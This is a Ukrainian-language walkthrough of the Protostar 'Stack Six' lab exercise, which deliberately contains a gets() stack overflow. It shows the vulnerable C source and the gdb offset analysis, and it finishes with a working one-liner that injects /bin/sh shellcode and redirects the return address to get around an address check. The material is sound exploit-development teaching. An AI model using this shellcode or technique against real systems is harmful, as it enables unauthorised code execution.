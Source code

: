 ## [Stack Six](http://exploit.education/protostar/stack-six/)

Stack6 демонструє, що відбувається, коли у вас є обмеження щодо адреси повернення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Знайдемо буфер стека для переповнення:
```
gdb ./stack6
...
disassemble getpath
```

![Disassemble getpath](img/disassemble_getpath.png)

Компілятор використовує EBP як орієнтир для локальних змінних, що полегшує обчислення. 
Буфер розташований на ```0x4c``` або 76 байта від EBP, тому для перезапису зворотної адреси нам просто потрібно записати ще 4 байти. 
Ми могли б знайти буфер користувача у пам'яті під час тестування таким чином:  
```
ulimit -c unlimited
python -c "print('B' * 80 + 'AAAA')" | ./stack6
...
gdb ./stack6 /tmp/core.11.stack6.1642
...
x/40x $esp-100
```

![Core Dump](img/core_dump.png)

Отже, маємо адресу ```0xbffffс9c```

Якщо спробувати атакувати як раніше, то нічого не вийде, бо у програмі є перевірка значення адреси повернення:  
```python -c "print('\xcc' * 80 + '\xbf\xff\xfc\x9c'[::-1])" | ./stack6``` 

![Bzzzt](img/bzzzt.png) 

### Duplicate payload  

Можливо, ми зможемо знайти десь у пам'яті адресу, яка не починається з ```0xbf......```. 
Давайте завантажимо дамп ядра з попереднього прикладу та спробуємо знайти буфер за більш зручною адресою:  
```
gdb ./stack6 /tmp/core.11.stack6.1642
...
info files
...
find /w1 0xb7fde000, 0xb7fe2000, 0x42424242
```

![Pattern found](img/pattern_found.png)

Витративши деякий час на перебір варіантів виявляється, що наш буфер дійсно знаходиться за іншою адресою, ```0xb7fde000```. Отже, маємо:  
```(python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6```  

![Shell test](img/shell_test.png)